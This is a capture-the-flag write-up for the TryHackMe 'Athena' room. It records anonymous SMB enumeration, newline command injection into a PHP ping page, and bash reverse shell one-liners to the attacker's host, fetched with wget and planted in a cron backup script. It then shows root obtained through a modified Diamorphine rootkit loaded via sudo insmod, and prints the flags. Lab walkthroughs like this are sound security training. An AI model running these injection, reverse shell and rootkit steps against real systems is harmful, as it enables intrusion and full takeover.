

| Category          | Details                                              |
|-------------------|------------------------------------------------------|
| 📝 **Name**       | [Athena](https://tryhackme.com/room/4th3n4)          |  
| 🏷 **Type**       | THM Challenge                                        |
| 🖥 **OS**         | Linux                                                |
| 🎯 **Difficulty** | Medium                                               |
| 📁 **Tags**       | SMB anonymous access, command injection, LKM rootkit |

## Task 1: Athena

### What is the user flag?

#### Scan target with `nmap`
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ nmap -sS -sC -sV -p- $TARGET
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-19 06:20 +0100
Nmap scan report for 10.81.150.222
Host is up (0.050s latency).
Not shown: 65531 closed tcp ports (reset)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 3b:c8:f8:13:e0:cb:42:60:0d:f6:4c:dc:55:d8:3b:ed (RSA)
|   256 1f:42:e1:c3:a5:17:2a:38:69:3e:9b:73:6d:cd:56:33 (ECDSA)
|_  256 7a:67:59:8d:37:c5:67:29:e8:53:e8:1e:df:b0:c7:1e (ED25519)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Athena - Gods of olympus
|_http-server-header: Apache/2.4.41 (Ubuntu)
139/tcp open  netbios-ssn Samba smbd 4
445/tcp open  netbios-ssn Samba smbd 4
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Host script results:
| smb2-time: 
|   date: 2026-01-19T05:21:17
|_  start_date: N/A
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled but not required
|_clock-skew: -1s
|_nbstat: NetBIOS name: ROUTERPANEL, NetBIOS user: <unknown>, NetBIOS MAC: <unknown> (unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 61.94 seconds
```

#### Enumerate Samba server
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ smbmap -H $TARGET --no-banner
[*] Detected 1 hosts serving SMB                                                                                                  
[*] Established 1 SMB connections(s) and 0 authenticated session(s)                                                      
                                                                                                                             
[+] IP: 10.81.150.222:445        Name: 10.81.150.222              Status: NULL Session
        Disk                                                    Permissions     Comment
        ----                                                    -----------     -------
        public                                                  READ ONLY
        IPC$                                                    NO ACCESS       IPC Service (Samba 4.15.13-Ubuntu)
[*] Closed 1 connections  
```

#### Enumerate `public` share
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ smbclient \\\\$TARGET\\public 
Password for [WORKGROUP\magicrc]:
Anonymous login successful
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Apr 17 02:54:43 2023
  ..                                  D        0  Mon Apr 17 02:54:05 2023
  msg_for_administrator.txt           N      253  Sun Apr 16 20:59:44 2023

                19947120 blocks of size 1024. 9579192 blocks available
smb: \> get msg_for_administrator.txt 
getting file \msg_for_administrator.txt of size 253 as msg_for_administrator.txt (1.0 KiloBytes/sec) (average 1.0 KiloBytes/sec)
```

#### Read exfiltrated `msg_for_administrator.txt`
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ cat msg_for_administrator.txt

Dear Administrator,

I would like to inform you that a new Ping system is being developed and I left the corresponding application in a specific path, which can be accessed through the following address: /myrouterpanel

Yours sincerely,

Athena
Intern
```

#### Access `/myrouterpanel`

We can see that there is some kind of 'Ping Tool'. After posting `127.0.0.1` as IP we are redirected to `ping.php` which renders
```PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.016 ms
64 bytes from 127.0.0.1: icmp_seq=2 ttl=64 time=0.033 ms
64 bytes from 127.0.0.1: icmp_seq=3 ttl=64 time=0.031 ms
64 bytes from 127.0.0.1: icmp_seq=4 ttl=64 time=0.032 ms

--- 127.0.0.1 ping statistics ---
4 packets transmitted, 4 received, 0% packet loss, time 3067ms
rtt min/avg/max/mdev = 0.016/0.028/0.033/0.007 ms
```
Based on that we could assume that `ping` command is being called from within PHP code and this opens command injection vector of attack.

#### Use `\n` to inject command
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ IP=$(echo -n "127.0.0.1 -c 1\nid" | jq -sRr @uri) && \
curl -s http://$TARGET/myrouterpanel/ping.php -d "submit=&ip=$IP"                          
<pre>PING 127.0.0.1 (127.0.0.1) 56(84) bytes of data.
64 bytes from 127.0.0.1: icmp_seq=1 ttl=64 time=0.017 ms

--- 127.0.0.1 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 0.017/0.017/0.017/0.000 ms
uid=33(www-data) gid=33(www-data) groups=33(www-data)
</pre>
```
`;`, `&'` and `|` were detected as hacking attempts.

#### Prepare command injection exploit
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ { cat <<'EOF'> cmd.sh
IP=$(echo -n "127.0.0.1 -c 1\n$1" | jq -sRr @uri) && \
curl -s http://$TARGET/myrouterpanel/ping.php -d "submit=&ip=$IP" | tail -n +7 | head -n -1
EOF
} && chmod +x cmd.sh
```

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ nc -lvnp 4444     e  
listening on [any] 4444 ...
```

#### Spawn reverse shell
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ REVERSE_SHELL=$RANDOM$RANDOM.sh
(python3 -m http.server 80 &) && \
echo "/bin/bash -c 'bash -i >& /dev/tcp/$LHOST/4444 0>&1'" > $REVERSE_SHELL && \
./cmd.sh "wget -P /tmp $LHOST/$REVERSE_SHELL" && \
./cmd.sh "chmod 777 /tmp/$REVERSE_SHELL" && \
./cmd.sh "/tmp/$REVERSE_SHELL"
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.81.150.222 - - [19/Jan/2026 17:06:08] "GET /216213442.sh HTTP/1.1" 200 -
```
Due to detection of `;`, `&'` and `|` characters in place we need to spawn reverse shell in multiple steps. 

#### Confirm foothold gained
```
connect to [192.168.130.56] from (UNKNOWN) [10.81.150.222] 56600
bash: cannot set terminal process group (599): Inappropriate ioctl for device
bash: no job control in this shell
www-data@routerpanel:/var/www/html/myrouterpanel$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

#### Enumerate target with `pspy`
```
<SNIP>
2026/01/19 08:28:12 CMD: UID=1001  PID=53087  | /bin/bash /usr/share/backup/backup.sh
<SNIP> 
```
`pspy` shows `/usr/share/backup/backup.sh` is periodically executed as UID 1001 (`athena`).
```
www-data@routerpanel:/$ ls -l /usr/share/backup/backup.sh
ls -l /usr/share/backup/backup.sh
-rwxr-xr-x 1 www-data athena 258 May 28  2023 /usr/share/backup/backup.sh
www-data@routerpanel:/$ lsattr  /usr/share/backup/backup.sh
lsattr /usr/share/backup/backup.sh
--------------e----- /usr/share/backup/backup.sh
```
Since `www-data` owns this script we could easily escalate to `athena` by spawning another reverse shell. (I've tried creating SUID shell in `/tmp`, but for some reason it does not work).

#### Start `nc` to listen for reverse shell connection
```
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ nc -lvnp 5555             
listening on [any] 5555 ...
```

#### Replace `/usr/share/backup/backup.sh` with reverse shell spawner
```
www-data@routerpanel:/$ cat <<'EOF' > /usr/share/backup/backup.sh
/bin/bash -c 'bash -i >& /dev/tcp/192.168.130.56/5555 0>&1'
EOF
```

#### Confirm escalation
```
connect to [192.168.130.56] from (UNKNOWN) [10.81.150.222] 50816
bash: cannot set terminal process group (1384): Inappropriate ioctl for device
bash: no job control in this shell
athena@routerpanel:/$ id
uid=1001(athena) gid=1001(athena) groups=1001(athena)
```

#### Capture user flag
```
athena@routerpanel:~$ cat /home/athena/user.txt 
857c4a4fbac638afb6c7ee45eb3e1a28
```

### What is the root flag?

#### List allowed sudo commands
```
athena@routerpanel:/$ sudo -l
Matching Defaults entries for athena on routerpanel:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User athena may run the following commands on routerpanel:
    (root) NOPASSWD: /usr/sbin/insmod /mnt/.../secret/venom.ko
```
We can see that user `athena` is allowed to load `venom.ko` kernel module.

#### Identify basic metadata of `venom.ko`
```
athena@routerpanel:/$ modinfo /mnt/.../secret/venom.ko
modinfo /mnt/.../secret/venom.ko
filename:       /mnt/.../secret/venom.ko
description:    LKM rootkit
author:         m0nad
license:        Dual BSD/GPL
srcversion:     93A81462832D4CF52F916D7
depends:        
retpoline:      Y
name:           venom
vermagic:       5.15.0-69-generic SMP mod_unload modversions
```
Is seems that this LKM (Linux Kernel Module) rootkit, authored by `m0nad`.

#### List symbols in `venom.ko`
```
athena@routerpanel:/$ nm /mnt/.../secret/venom.ko
<SNIP>
0000000000000000 t diamorphine_cleanup
0000000000000000 t diamorphine_init
                 U __fentry__
0000000000000430 T find_task
00000000000003f0 T get_syscall_table_bf
0000000000000490 T give_root
0000000000000050 t hacked_getdents
0000000000000220 t hacked_getdents64
00000000000004e0 T hacked_kill
0000000000000000 T init_module
                 U init_task
0000000000000470 T is_invisible
<SNIP>
```
It contains a couple of interesting symbols like `give_root` or `hacked_kill`. There is also `diamorphine_init` which might suggest that this rootkit is / was originally named `diamorphine`.

#### Identify rootkit capabilities
With [Google query](https://www.google.com/search?q=LKM+rootkit+m0nad) we were able to identify [Diamorphine](https://github.com/m0nad/Diamorphine) GitHub repository. On its feature list there is:
> Sending a signal 64(to any pid) makes the given user become root;

We could confirm this by briefly analyzing `diamorphine.c` 
```
<SNIP>
hacked_kill(pid_t pid, int sig)
{
#endif
	struct task_struct *task;
	switch (sig) {
<SNIP>
		case SIGSUPER:
			give_root();
			break;
<SNIP>
```

And `diamorphine.h`
```
enum {
	SIGINVIS = 31,
	SIGSUPER = 64,
	SIGMODINVIS = 63,
};
```

#### Load LKM rootkit
```
athena@routerpanel:/$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
```

#### Send signal 64 to PID 0
```
athena@routerpanel:/$ kill -64 0
kill -64 0
                                                                                                                                                                                 
┌──(magicrc㉿perun)-[~/attack/THM Athena]
└─$ 
```
For some reason we were disconnected. LKM that we have loaded is named `venom` which might suggest that this is some kind 'variation' of `diamorphine`, We will exfiltrate and analyze it.

#### Analyze `venom.ko` with `binaryninja`


If we look closer we could spot that `hacked_kill()` has been slightly modified as condition for calling `give_root()` has been changed to `if (rax == 0x39)` which is `57` (dec) and not `64`.

#### Send signal 57 to PID 0
```
athena@routerpanel:/$ id
uid=1001(athena) gid=1001(athena) groups=1001(athena)
athena@routerpanel:/$ kill -57 0
athena@routerpanel:/$ id
uid=0(root) gid=0(root) groups=0(root),1001(athena)
```

#### Capture root flag
```
athena@routerpanel:/$ cat /root/root.txt
aecd4a3497cd2ec4bc71a2315030bd48
```
